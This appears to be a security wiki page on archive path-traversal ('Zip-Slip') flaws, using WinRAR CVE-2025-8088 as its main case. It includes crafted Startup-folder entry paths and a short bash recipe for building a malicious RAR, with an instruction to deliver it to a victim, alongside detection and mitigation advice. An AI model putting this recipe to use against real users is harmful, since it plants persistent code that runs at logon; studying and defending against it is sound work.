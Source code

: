 # Archive Extraction Path Traversal ("Zip-Slip" / WinRAR CVE-2025-8088)

## Overview

Many archive formats (ZIP, RAR, TAR, 7-ZIP, etc.) allow each entry to carry its own **internal path**. When an extraction utility blindly honours that path, a crafted filename containing `..` or an **absolute path** (e.g. `C:\Windows\System32\`) will be written outside of the user-chosen directory.  
This class of vulnerability is widely known as *Zip-Slip* or **archive extraction path traversal**.

Consequences range from overwriting arbitrary files to directly achieving **remote code execution (RCE)** by dropping a payload in an **auto-run** location such as the Windows *Startup* folder.

## Root Cause

1. Attacker creates an archive where one or more file headers contain:
   * Relative traversal sequences (`..\..\..\Users\\victim\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\payload.exe`)
   * Absolute paths (`C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp\\payload.exe`)
2. Victim extracts the archive with a vulnerable tool that trusts the embedded path instead of sanitising it or forcing extraction beneath the chosen directory.
3. The file is written in the attacker-controlled location and executed/loaded next time the system or user triggers that path.

## Real-World Example – WinRAR ≤ 7.12 (CVE-2025-8088)

WinRAR for Windows (including the `rar` / `unrar` CLI, the DLL and the portable source) failed to validate filenames during extraction.  
A malicious RAR archive containing an entry such as:

```text
..\..\..\Users\victim\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\payload.exe
```

would end up **outside** the selected output directory and inside the user’s *Startup* folder. After logon Windows automatically executes everything present there, providing *persistent* RCE.

### Crafting a PoC Archive (Linux/Mac)

```bash
# Requires rar >= 6.x
mkdir -p "evil/../../../Users/Public/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup"
cp payload.exe "evil/../../../Users/Public/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/"
rar a -ep evil.rar evil/*
```
Options used:
* `-ep`  – store file paths exactly as given (do **not** prune leading `./`).

Deliver `evil.rar` to the victim and instruct them to extract it with a vulnerable WinRAR build.

### Observed Exploitation in the Wild

ESET reported RomCom (Storm-0978/UNC2596) spear-phishing campaigns that attached RAR archives abusing CVE-2025-8088 to deploy customised backdoors and facilitate ransomware operations.

## Detection Tips

* **Static inspection** – List archive entries and flag any name containing `../`, `..\\`, *absolute paths* (`C:`) or non-canonical UTF-8/UTF-16 encodings.
* **Sandbox extraction** – Decompress into a disposable directory using a *safe* extractor (e.g., Python’s `patool`, 7-Zip ≥ latest, `bsdtar`) and verify resulting paths stay inside the directory.
* **Endpoint monitoring** – Alert on new executables written to `Startup`/`Run` locations shortly after an archive is opened by WinRAR/7-Zip/etc.

## Mitigation & Hardening

1. **Update the extractor** – WinRAR 7.13 implements proper path sanitisation. Users must manually download it because WinRAR lacks an auto-update mechanism.
2. Extract archives with the **“Ignore paths”** option (WinRAR: *Extract → "Do not extract paths"*) when possible.
3. Open untrusted archives **inside a sandbox** or VM.
4. Implement application whitelisting and restrict user write access to auto-run directories.

## Additional Affected / Historical Cases

* 2018 – Massive *Zip-Slip* advisory by Snyk affecting many Java/Go/JS libraries.
* 2023 – 7-Zip CVE-2023-4011 similar traversal during `-ao` merge.
* Any custom extraction logic that fails to call `PathCanonicalize` / `realpath` prior to write.

## References

- [BleepingComputer – WinRAR zero-day exploited to plant malware on archive extraction](https://www.bleepingcomputer.com/news/security/winrar-zero-day-flaw-exploited-by-romcom-hackers-in-phishing-attacks/)
- [WinRAR 7.13 Changelog](https://www.win-rar.com/singlenewsview.html?&L=0&tx_ttnews%5Btt_news%5D=283&cHash=a64b4a8f662d3639dec8d65f47bc93c5)
- [Snyk – Zip Slip vulnerability write-up](https://snyk.io/research/zip-slip-vulnerability)

